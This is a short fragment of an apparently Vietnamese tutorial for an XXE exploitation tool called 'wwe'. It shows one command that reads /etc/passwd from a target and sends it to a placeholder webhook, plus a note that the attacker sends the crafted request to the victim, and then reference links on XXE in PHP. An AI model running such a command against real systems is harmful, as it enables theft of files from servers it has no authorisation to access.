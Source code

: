 `MANUAL` :
```bash
python3 wwe.py -f /etc/passwd --decode https://<link_webhook>/ MANUAL
```
→ Tạo payload từng bước, attacker tự gửi request đến nạn nhân.
## ✅ References
https://swarm.ptsecurity.com/impossible-xxe-in-php/

https://viblo.asia/p/xxe-injection-vulnerabilities-lo-hong-xml-phan-1-vlZL992BLQK

https://github.com/bytehope/wwe
